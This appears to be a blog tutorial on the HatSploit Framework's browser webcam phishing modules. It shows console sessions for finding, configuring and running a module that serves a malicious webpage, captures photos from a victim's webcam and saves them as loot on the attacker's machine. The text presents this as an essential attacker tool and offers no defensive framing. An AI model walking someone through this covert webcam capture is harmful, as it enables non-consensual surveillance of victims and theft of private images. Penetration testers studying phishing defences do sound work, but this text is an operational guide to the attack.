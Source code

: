 ```yaml
---
title: Webcam Photo Phishing
categories: [Exploitation]
tags: [hatsploit, phishing]
---
```


Phishing is a common technique used by attackers to gain access to sensitive information through methods like social engineering. Attackers often attempt to obtain credentials, password hashes, location data, and other critical information by tricking users into revealing this data.

In the HatSploit Framework, EntySec has implemented several modules specifically designed to target a victim’s webcam. These modules allow attackers to take a photo using the target's webcam through a browser and save the captured image as loot on the attacker's machine. Additionally, attackers can stream the webcam footage in real-time. These modules are named `exploit/generic/gather/browser_webcam_photo` and `exploit/generic/gather/browser_webcam_stream`.

Here’s how you can access and use these modules:

```entysec
[hsf3]> search webcam

Modules:

    Number    Category    Module                                          Rank    Name
    0         exploit     exploit/generic/gather/browser_webcam_photo     low     Gather Browser Webcam Photo
    1         exploit     exploit/generic/gather/browser_webcam_stream    low     Gather Browser Webcam Stream
```

## Using the module

Once you have identified the desired module, you can use it within the HatSploit Framework and set the appropriate options.

For example, to use the `Gather Browser Webcam Photo` module:

```entysec
[hsf]> use 0
[hsf3: Gather Browser Webcam Photo]> info

    Name: Gather Browser Webcam Photo
  Module: exploit/generic/gather/browser_webcam_photo
Platform: generic
    Rank: low

Authors:
  Ivan Nikolskiy (enty8080) - module developer

Description:
  This module generates a webpage that, when accessed by a victim, attempts to capture an image using the built-in webcam and send it to the attacker.

References:
  URL: https://blog.entysec.com/2022-03-13-webcam-photo-phishing/

Stability:
  This module is stable and does not crash the target.
```

## Configuring the module

You will need to configure several options before running the module:

```entysec
[hsf3: Gather Browser Webcam Photo]> options

Module Options (exploit/generic/gather/browser_webcam_photo):

    Option     Value                                          Required    Description
    HOST                                                      yes         HTTP host.
    MESSAGE    Grant Access                                   yes         Message to display.
    PATH       /Users/felix/.hsf/loot/zIlWzaKkC9x28XX7.png    yes         Path to save file.
    PORT       80                                             yes         HTTP port.
    SSL        no                                             no          Use SSL.
    TIMEOUT    10                                             no          Connection timeout.
    URLPATH    /                                              yes         File path on server.
```

## Running the module

After configuring the options, you can start the web server and wait for the victim to access the malicious webpage. The module will continue to capture images from the victim’s webcam until it is manually interrupted.

Here’s an example:

```entysec
[hsf3: Gather Browser Webcam Photo]> set host localhost
[i] host => localhost
[hsf3: Gather Browser Webcam Photo]> set port 8080
[i] port => 8080
[hsf3: Gather Browser Webcam Photo]> run

[*] Starting HTTP listener on port 8080...
[*] Delivering payload...
[*] Taking webcam photo...
[*] Taking webcam photo...
[*] Taking webcam photo...
[*] Taking webcam photo...
[*] Taking webcam photo...
[*] Taking webcam photo...
[*] Taking webcam photo...
[!] Exploit module interrupted.
```

This module will continue to capture and update the photo file saved in the loot directory until you stop it manually with keyboard interrupt (Ctrl-C).

By utilizing this module, attackers can gain access to sensitive webcam data through the use of phishing techniques, making it an essential tool in the HatSploit Framework.
